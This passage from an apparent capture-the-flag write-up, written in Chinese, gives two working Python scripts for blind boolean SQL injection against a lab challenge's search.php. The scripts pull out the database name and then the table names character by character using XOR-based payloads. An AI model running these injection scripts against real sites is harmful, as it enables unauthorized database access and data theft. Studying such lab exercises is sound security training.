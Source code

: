 用括号代替 改成这样：

![image-20250916163219013](assets/image-20250916163219013.png)

```py
import requests
url = 'http://85ef4fe3-7793-44d7-a564-737280a43420.node5.buuoj.cn:81/search.php'
res = ""
sign = 0
# ?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),1,1))>1)--+
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),{i},1))>{middle})--+"
        # print(payload)
        r = requests.get(url + payload)
        if 'others' in r.text: # 注意改这里
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

得到数据库：geek

```py
import requests
url = 'http://85ef4fe3-7793-44d7-a564-737280a43420.node5.buuoj.cn:81/search.php'
res = ""
sign = 0
# ?id=0^(ASCII(SUBSTR((SELECT(DATABASE())),1,1))>1)--+
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"?id=0^(ASCII(SUBSTR((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))>{middle})--+"
        # print(payload)
        r = requests.get(url + payload)
        if 'others' in r.text: # 注意改这里
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
```